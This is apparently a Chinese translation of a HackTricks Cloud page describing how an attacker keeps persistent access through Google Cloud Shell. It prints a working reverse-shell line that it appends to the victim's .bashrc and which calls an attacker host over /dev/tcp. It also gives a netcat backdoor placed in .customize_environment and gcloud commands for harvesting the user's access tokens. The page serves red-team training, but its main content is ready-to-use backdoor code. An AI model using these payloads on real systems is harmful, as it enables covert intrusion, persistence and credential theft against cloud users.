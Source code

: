 # GCP - Cloud Shell 持久性

<details>

<summary><strong>从零到英雄学习AWS黑客技术，参加</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **提交PR来分享您的黑客技巧**
*
*
*
* &#x20;github仓库。

</details>

## Cloud Shell

更多信息请查看：

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### 持久性后门

[**Google Cloud Shell**](https://cloud.google.com/shell/) 提供了直接从浏览器访问云资源的命令行访问，无需任何相关成本。

您可以通过**网络控制台**或运行 **`gcloud cloud-shell ssh`** 访问Google的Cloud Shell。

这个控制台对攻击者来说有一些有趣的功能：

1. **任何有权访问Google Cloud的Google用户**都可以访问一个完全认证的Cloud Shell实例（即使是组织的所有者，服务账户也可以）。
2. 该实例将**至少保持其主目录120天**，如果没有活动发生。
3. 组织**无法监控**该实例的活动。

这基本上意味着，攻击者可以在用户的主目录中放置一个后门，只要用户每120天至少连接到GC Shell一次，后门就会存活下来，每次运行时攻击者就会得到一个shell，只需执行以下操作：

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
```markdown
还有一个位于家目录中的文件名为 **`.customize_environment`**，如果该文件存在，每次用户访问 **cloud shell** 时都会**执行**（如前一技术所述）。只需插入之前的后门或类似以下的后门，只要用户“经常”使用 cloud shell，就能保持持久性：
```
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
请注意，**在 Cloud Shell 中首次执行需要认证的 GCP 操作时**，它会在用户的浏览器中**弹出**一个授权窗口，必须接受后命令才会运行。如果出现意外的弹出窗口，目标可能会变得怀疑并且终止持久性方法。

这是从 cloud shell（作为攻击者）执行 `gcloud projects list` 时，在浏览器用户会话中看到的弹出窗口。
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

然而，如果用户已经积极使用了 cloudshell，弹出窗口不会出现，你可以**收集用户的 tokens**：
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### 如何建立SSH连接

基本上，使用了这3个API调用：

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST]（将使您添加您本地创建的公钥）
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST]（将启动实例）
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET]（将告诉您google cloud shell的IP地址）

但是您可以在[https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)找到更多信息

## 参考资料

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零开始学习AWS黑客攻击！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **提交PR来分享您的黑客技巧。**
*
*
* &#x20;github仓库。

</details>
